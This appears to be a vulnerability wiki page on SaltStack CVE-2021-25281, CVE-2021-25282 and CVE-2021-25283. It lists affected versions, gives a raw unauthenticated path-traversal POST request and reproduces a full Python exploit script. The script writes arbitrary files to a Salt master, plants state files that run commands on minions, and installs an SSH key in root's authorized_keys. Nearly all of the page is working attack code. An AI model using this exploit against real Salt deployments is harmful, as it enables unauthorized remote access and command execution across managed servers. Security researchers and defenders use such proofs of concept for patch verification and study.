 <languages />

<translate>

漏洞影響
--------

</translate> All versions before Saltstack 3002.2 SaltStack =\< 3002.2 SaltStack =\< 3001.4 SaltStack =\< 3000.6

<translate> salt-api wheel_async未授權訪問 (CVE-2021-25281)

sdb rest插件模版渲染問題 (CVE-2021-25283)

wheel/pillar_roots.py文件任意寫漏洞 (CVE-2021-25282) </translate>

POC
---

CVE-2021-25281 + CVE-2021-25282

    http://target/run
    POST:
    "client": "wheel_async",
    "fun": "pillar_roots.write",
    "data": "../../../../../tmp/test2",
    "path": "../../../../../tmp/test2",
    "username": "password",
    "password": "username",
    "eauth": "pam"

### cve-2021-25281.py

    # Copyright (C) 2021 Alex Seymour, Immersive Labs
    # https://github.com/Immersive-Labs-Sec/CVE-2021-25281
    #
    # Permission is hereby granted, free of charge, to any person obtaining a copy
    # of this software and associated documentation files (the "Software"), to deal
    # in the Software without restriction, including without limitation the rights
    # to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
    # copies of the Software, and to permit persons to whom the Software is
    # furnished to do so, subject to the following conditions:

    # The above copyright notice and this permission notice shall be included in all
    # copies or substantial portions of the Software.

    # THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
    # IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
    # FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
    # AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
    # LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
    # OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
    # SOFTWARE.
    from argparse import ArgumentParser, Namespace
    from pathlib import Path
    from secrets import token_hex
    from textwrap import dedent

    import requests
    import urllib3

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


    def read_file(file_path: Path):
        try:
            with file_path.open() as handle:
                return handle.read()
        except OSError:
            print(f'[-] Cannot read file {file_path}')
            exit(1)


    def send_request(url: str, path: str, data: str):
        path = path[1:] if path.startswith('/') else path
        url = f'https://{url}/run' if not url.startswith(('http', 'https')) else f'{url}/run'
        try:
            response = requests.post(
                url,
                verify=False,
                json={
                    'eauth': 'auto',
                    'client': 'wheel_async',
                    'fun': 'pillar_roots.write',
                    'data': data,
                    'path': f'../../../../../../{path}',
                },
            )
        except requests.RequestException:
            print(f'[-] Failed to send request to {url}')
            exit(1)

        if json := response.json():
            print(f'[+] Got JID: {json["return"][0]["jid"]}, the job was queued successfully')
        else:
            print('[-] No JID was returned, the request may have failed or the target is not vulnerable')


    def handle_write_file(args: Namespace):
        if args.file:
            file_contents = read_file(args.file)
        elif args.data:
            file_contents = args.data
        else:
            print('[-] Either file or data is required')
            exit(1)

        print('[+] Attempting to write file')
        send_request(args.target, args.path, file_contents)


    def handle_state_file(args: Namespace):
        state_file_path = Path('/srv') / 'salt' / f'{token_hex(16)}.sls'
        file_contents = dedent(f"""\
        '{args.cmd}':
          cmd.run
        """)

        print(f'[+] Attempting to write command to {state_file_path} state file')
        send_request(args.target, f'/srv/salt/{state_file_path.name}', file_contents)


    def handle_ssh_key(args: Namespace):
        public_key = read_file(args.public_key)

        print(f'[+] Attempting to write an authorized key for user {args.user}')
        if args.user == 'root':
            send_request(args.target, '/root/.ssh/authorized_keys', public_key)
        else:
            send_request(args.target, f'/home/{args.user}/.ssh/authorized_keys', public_key)


    def main():
        parser = ArgumentParser()
        parser.add_argument('target', help='The URL of the target Salt master')
        subparsers = parser.add_subparsers()

        write_parser = subparsers.add_parser('write', help='Write data to a file on the master')
        write_parser.add_argument('path', help='The file path to write to on the target')
        write_parser.add_argument('-f', '--file', type=Path, help='A file to upload to the target')
        write_parser.add_argument('-d', '--data', help='The raw contents to write to a file')
        write_parser.set_defaults(func=handle_write_file)

        state_parser = subparsers.add_parser('state', help='Create a state file to try and run commands on minions')
        state_parser.add_argument('cmd', help='A command to add to a new state file')
        state_parser.set_defaults(func=handle_state_file)

        ssh_parser = subparsers.add_parser('ssh', help='Write an SSH key to try and gain remote access to the master')
        ssh_parser.add_argument('public_key', type=Path, help='A file containing the public key to upload')
        ssh_parser.add_argument('-u', '--user', default='root', help='The user on the target to try and upload the key to')
        ssh_parser.set_defaults(func=handle_ssh_key)

        args = parser.parse_args()
        args.func(args)


    if __name__ == '__main__':
        main()